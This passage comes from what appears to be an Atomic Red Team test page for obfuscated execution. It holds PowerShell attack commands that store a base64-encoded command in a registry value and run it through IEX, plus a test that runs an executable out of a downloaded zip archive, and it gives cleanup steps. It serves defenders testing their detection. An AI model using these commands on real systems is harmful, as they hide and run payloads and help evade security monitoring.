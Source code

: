 
#### Attack Commands: Run with `powershell`! 


```powershell
$OriginalCommand = '#{powershell_command}'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($OriginalCommand)
$EncodedCommand =[Convert]::ToBase64String($Bytes)
$EncodedCommand

Set-ItemProperty -Force -Path #{registry_key_storage} -Name #{registry_entry_storage} -Value $EncodedCommand
powershell.exe -Command "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp #{registry_key_storage} #{registry_entry_storage}).#{registry_entry_storage})))"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Force -ErrorAction Ignore -Path #{registry_key_storage} -Name #{registry_entry_storage}
```





<br/>
<br/>

## Atomic Test #5 - Execution from Compressed File
Mimic execution of compressed executable. When successfully executed, calculator.exe will open.

**Supported Platforms:** Windows


**auto_generated_guid:** f8c8a909-5f29-49ac-9244-413936ce6d1f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url_path | url to download Exe | url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1027/bin/T1027.zip|


#### Attack Commands: Run with `command_prompt`! 


```cmd
"PathToAtomicsFolder\..\ExternalPayloads\temp_T1027.zip\T1027.exe"
```

#### Cleanup Commands:
```cmd
taskkill /f /im calculator.exe >nul 2>nul
taskkill /f /im CalculatorApp.exe >nul 2>nul
```
